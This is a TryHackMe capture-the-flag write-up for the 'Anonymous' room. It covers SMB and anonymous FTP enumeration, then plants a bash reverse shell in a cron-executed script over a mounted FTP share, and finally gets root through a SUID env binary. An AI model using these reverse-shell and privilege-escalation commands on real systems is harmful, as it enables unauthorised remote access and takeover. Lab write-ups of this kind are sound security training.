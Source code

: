 # **Anonymous**
This is a writeup for the TryHackMe room [anonymous](https://tryhackme.com/room/anonymous).

The questions ask about ports, so let's start with an nmap scan.

```bash
nmap -sV $ip
```

![nmap_scan](assets/images/anonymous/nmap_scan.png)

This nmap scan shows us that ports 21, 22, 139 and 445 are open. Port 21 is used for FTP, port 22 is used for ssh and ports 139 and 445 are use for SMB.

Let's check for SMB shares.

```zsh
smbmap -H $ip -R
```

![smbmap](assets/images/anonymous/smbmap.png)

This shows us two files that we can download, corgo2.jpg and puppos.jpeg.

```zsh
smbget -R smb://$ip/pics
```

When prompted for a password, just press **ENTER**.

![smbget](assets/images/anonymous/smbget.png)

![corgo](assets/images/anonymous/corgo2.jpg)

![corgos](assets/images/anonymous/puppos.jpeg)

These look like they're just pictures of dogs but let's exiftool them just in case.

![exif](assets/images/anonymous/exif.png)

Nothing interesting there. SMB seems to be a dead end for now, let's check FTP.

```zsh
ftp $ip
```

When prompted for a username input **anonymous**, and when prompted for a password press **ENTER**.

![ftp_shown](assets/images/anonymous/ftp_show.png)

The scripts folder has some interesting sounding files in it, so let's get those. The command `get` can be used to download files from FTP.

![ftp_get](assets/images/anonymous/ftp_get.png)

Let's see what those files are, **clean.sh** seems the most interesting so we'll check that first.

![clean-sh](assets/images/anonymous/clean-sh-cat.png)

It seems to delete temporary files, so maybe it's a cronjob? We'll look in to that in a minute, first lets see what those other files are.

![cleanuplog](assets/images/anonymous/cleanuplog.png)

Nothing useful there. Let's check **to_do.txt**, it's nothing interesting either.

Back to that **clean.sh** file, maybe we can add to that file and see if anything happens. We can use `curlftpfs` to mount and change the file.

First we need to create a folder for the files to mount to.

```zsh
mkdir ftp
```

Then we run `curlftpfs`.

```zsh 
sudo curlftpfs anonymous@$ip ftp/
```

![ftpfs](assets/images/anonymous/ftpfs.png)

Now we need to edit the **clean.sh** file, we can do that with any text editor but for now we'll just use `nano`.

```zsh
sudo nano ftp/scripts/clean.sh
```

![nano1](assets/images/anonymous/nano1.png)

We're going to add a line to give us a reverse shell. Credit goes to the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) github repo for the reverse shell.

```zsh
bash -i >& /dev/tcp/$yourip/4242 0>&1
```

![nano2](assets/images/anonymous/nano2.png)

Now we need to set up a netcat listener, we can use the following command for this.

```zsh
nc -lnvp 4242
```

And now we wait...

![flag1](assets/images/anonymous/flag1.png)

Once we have a reverse shell we can print out the user flag. We should probably stabilise our shell, we can do that with python.

```zsh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now that that's done let's move on to priv-esc. First we'll check for **SUID** binaries.

```zsh
find / -user root -perm -4000 -print 2>/dev/null
```

![suid](assets/images/anonymous/suid.png)

The only thing out of the ordinary there is `env`, so let's check [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) to see if they have any suggestions.

```zsh
env /bin/sh -p
```

This will give us root and allow us to get the flag.

![root](assets/images/anonymous/root.png)
